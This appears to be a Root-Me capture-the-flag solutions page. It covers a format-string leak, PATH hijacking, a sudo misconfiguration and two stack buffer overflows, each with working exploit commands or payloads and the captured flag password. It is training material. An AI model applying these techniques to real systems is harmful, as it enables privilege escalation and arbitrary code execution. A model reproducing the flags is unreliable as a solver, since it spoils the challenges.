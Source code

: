 ## [ELF x86 - Format string bug basic 1](https://www.root-me.org/en/Challenges/App-System/ELF-x86-Format-string-bug-basic-1)
<details>
  <summary>
    Solution
  </summary>
  <blockquote>
    %08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x
    00000020.0804b008.b7e562f3.00000000.08049ff4.00000002.bffffbe4.bffffd0b.0000002f.0804b008.39617044.28293664.6d617045.00000a64.b7e564ad.b7fd03c4.b7fff000.08048579.b8789f00.08048570

    39617044
    28293664
    6d617045
    00000a64

    44706139 64362928 4570616d a6400000
  </blockquote>
</details>

<details>
  <summary>
    Password
  </summary>
  <p>
    Dpa9d6)(Epamd
  </p>
</details>


## [Bash - System 1](https://www.root-me.org/en/Challenges/App-Script/ELF32-System-1)
<details>
  <summary>
    Solution
  </summary>
  <blockquote>
    mkdir /tmp/bash1
    cp /bin/nano /tmp/bash1/ls
    export PATH=/tmp/bash1:$PATH
  </blockquote>
</details>

<details>
  <summary>
    Password
  </summary>
  <p>
    !oPe96a/.s8d5
  </p>
</details>

## [Bash - System 2](https://www.root-me.org/en/Challenges/App-Script/ELF32-System-2)
<details>
  <summary>
    Solution
  </summary>
  <blockquote>
    cp /bin/nano /tmp/bash1/ls
    export PATH=/tmp/bash1:$PATH
  </blockquote>
</details>


<details>
  <summary>
    Password
  </summary>
  <p>
    8a95eDS/*e_T#
  </p>
</details>

## [sudo - weak configuration](https://www.root-me.org/en/Challenges/App-Script/sudo-weak-configuration)
<details>
  <summary>
    Solution
  </summary>
  <blockquote>
    sudo -l
    sudo -u app-script-ch1-cracked  cat /challenge/app-script/ch1/ch1/../ch1cracked/.passwd
  </blockquote>
</details>


<details>
  <summary>
    Password
  </summary>
  <p>
    b3_c4r3full_w1th_sud0
  </p>
</details>




## [ELF x86 - Stack buffer overflow basic 1](https://www.root-me.org/en/Challenges/App-System/ELF32-Stack-buffer-overflow-basic-1)
<details>
  <summary>
    Solution
  </summary>
  <blockquote>
    (python -c 'print "\xef\xbe\xad\xde"*40 ' ;cat ) | ./ch13

    \xef\xbe\xad\xde

    ﾭ?ﾭ?ﾭ?ﾭ?ﾭ?ﾭ?ﾭ?ﾭ?ﾭ?ﾭ?ﾭ?ﾭ?ﾭ?ﾭ?ﾭ?ﾭ?ﾭ?ﾭ?ﾭ?ﾭ?ﾭ?ﾭ?ﾭ?ﾭ?ﾭ?ﾭ?ﾭ?ﾭ?ﾭ?ﾭ?ﾭ?ﾭ?ﾭ?ﾭ?ﾭ?ﾭ?ﾭ?ﾭ?ﾭ?ﾭ?ﾭ?ﾭ?ﾭ?ﾭ?ﾭ?ﾭ?ﾭ?ﾭ?ﾭ?ﾭ?ﾭ?ﾭ?ﾭ?ﾭ?ﾭ?ﾭ?ﾭ?ﾭ?ﾭ?ﾭ?ﾭ?ﾭ?ﾭ?ﾭ?ﾭ?ﾭ?ﾭ?ﾭ?ﾭ?ﾭ?ﾭ?ﾭ?ﾭ?ﾭ?ﾭ?ﾭ?ﾭ?ﾭ?
  </blockquote>
</details>

<details>
  <summary>
    Password
  </summary>
  <p>
    1w4ntm0r3pr0np1s
  </p>
</details>

## [ELF x86 - Stack buffer overflow basic 2](https://www.root-me.org/en/Challenges/App-System/ELF32-Stack-buffer-overflow-basic-2)
<details>
  <summary>
    Solution
  </summary>
  <blockquote>
    objdump -d ch15

    08048464 <shell>:
    8048464:	55                   	push   %ebp
    8048465:	89 e5                	mov    %esp,%ebp
    8048467:	83 ec 18             	sub    $0x18,%esp
    804846a:	c7 04 24 a0 85 04 08 	movl   $0x80485a0,(%esp)
    8048471:	e8 0a ff ff ff       	call   8048380 <system@plt>
    8048476:	c9                   	leave  
    8048477:	c3                   	ret   

    08048464

    (python -c 'print "\x64\x84\x04\x08"*133 ';cat) |./ch15
  </blockquote>
</details>


<details>
  <summary>
    Password
  </summary>
  <p>
    B33r1sSoG0oD4y0urBr4iN
  </p>
</details>


